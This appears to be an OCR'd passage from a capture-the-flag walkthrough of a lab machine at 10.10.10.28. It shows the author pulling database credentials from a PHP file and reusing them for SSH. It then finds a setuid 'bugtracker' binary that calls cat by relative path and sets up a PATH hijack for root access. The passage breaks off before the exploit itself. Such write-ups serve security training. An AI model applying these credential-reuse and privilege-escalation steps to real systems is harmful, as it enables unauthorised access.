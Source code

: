 > cat db.php

<pre>
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

username: robert
password: M3g4C0rpUs3r!
</pre>

- because ssh port 22 has open

> ssh robert@10.10.10.28

- command input "id"

<pre>
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
</pre>

=> group contains "bugtracker"


> find / -type f -group bugtracker 2> /dev/null

*(2> dev/null means discard unnecessary data message)*

<pre>
/usr/bin/bugtracker
</pre>

- Not important message

> file bugtracker

<pre>
bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
</pre>

- Check content of bugtracker

> strings bugtracker

<pre>
------------------
: EV Bug Tracker :
------------------
Provide Bug ID: 
---------------
cat /root/reports/
;*3$"
</pre>

- Establish a fake cat instead of root used

- Command in ~/tmp
